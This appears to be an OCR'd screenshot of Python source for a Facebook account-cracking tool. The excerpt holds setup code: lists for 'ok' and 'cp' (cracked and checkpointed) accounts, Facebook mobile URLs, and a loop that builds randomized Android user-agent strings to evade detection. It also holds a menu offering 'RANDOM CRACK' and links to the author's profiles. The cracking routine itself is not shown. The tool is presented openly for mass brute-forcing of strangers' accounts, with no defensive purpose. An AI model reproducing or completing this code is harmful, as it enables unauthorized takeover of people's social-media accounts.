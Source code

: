 warna = random.choice(my_color)
data,data2={},{}
aman,cp,salah=0,0,0
ubahP,fuck,pwBaru=[],[],[]
ok = []
cp = []
id = []
user = []
loop = 0
oks = []
cps = []
loop = 0
url_lookup = "https://lookup-id.com/"
url_mb = "https://m.facebook.com"
url_ip = "https://www.httpbin.org/ip"
header_grup = {"user-agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.5 Mobile/15E148 Safari/604.1 [FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"}
bulan_ttl = {"01": "January", "02": "February", "03": "March", "04": "April", "05": "May", "06": "June", "07": "July", "08": "Augustus", "09": "September", "10": "October", "11": "November", "12": "December"}
done = False

ugen=[]
for x in range(100):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['6','7','8','9','10','11','12'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
def jalan(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.01)

def Picchi():
    os.system('clear')
    jalan(logo)
    print('\033[1;95m─────────────────────────────────────────────────────')
    jalan('\033[1;92m[\033[1;91m1\033[1;92m]\033[1;95m RANDOM CRACK ')
    jalan('\033[1;92m[\033[1;91m0\033[1;92m]\033[1;91m EXIT')
    Picchi = input('\n\x1b[1;32mCHOOSE : ')
    if Picchi == '1':
        i()
    if Picchi == '2':
        os.system('xdg-open https://www.facebook.com/ps7c8o.p133h1')
    if Picchi == '3':
        os.system('xdg-open https://github.com/PSYCHO-PICCHI')
    if Picchi == '4':
        os.system('xdg-open https://www.facebook.com/psycho.picchi.12')
    if Picchi == '0':
        os.system('exit')